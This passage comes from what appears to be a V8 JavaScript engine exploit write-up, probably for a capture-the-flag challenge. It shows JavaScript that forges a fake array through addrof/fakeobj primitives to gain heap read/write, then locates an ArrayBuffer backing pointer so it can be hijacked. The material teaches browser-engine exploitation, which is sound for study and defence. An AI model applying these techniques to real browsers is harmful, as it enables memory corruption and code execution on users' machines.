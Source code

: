 The left image depicts how an array object in V8 generally lookes like while the right image depicts how my fake array looked like in memory. While the pseudocode shows _addrof(fakeobj) + 16_, our actual code above uses +24 because the return value of deref is in fact _addrof(fakeobj) - 8_.

```javascript
var fakearr = fakeobj(deref(fakearr_data, 0) + 8); // +8 due to the first 8 bytes being header and size
loc += 0x20; // The actual start of fake array is 0x20 from the base of fakearr_data's elements
```

![](/images/4/debugprint.png)
*The fake array (use command line --allow-natives-syntax for DebugPrint)*

As an array object keeps a pointer to its actual contents at pointer+4, I used my dereference function to find my floating point numbers in memory. Then, with this pointer, I used the fakeobj function to create my fake array _fakearr_. It has an enormous length which meant that through indexing into the array, I can read and write to any data on the heap, provided it came after my array.

```javascript
var arrbuf = new ArrayBuffer(0x1000);
var dv = new DataView(arrbuf);
```

Next, I initialise and create an ArrayBuffer object. ArrayBuffer, while functioning similarly to an array in some ways, differ under the hood in that it does _not_ store data on the heap, but rather in its own memory page. This meant its pointer to backing storage is a full 64 bit pointer and if controlled, allows us to read and write to virtually (pun intended) anywhere in the memory.

```javascript
var arrbuf_loc = addrof(arrbuf);
var beginidx = (arrbuf_loc + 0x20 - loc - 8 -4) / 8;
var backing = fakearr[beginidx];

console.log(fakearr[beginidx]);
```

As planned, the ArrayBuffer falls after our fake array on the heap and we read its backing pointer successfully. But, what can we change its backing pointer to?
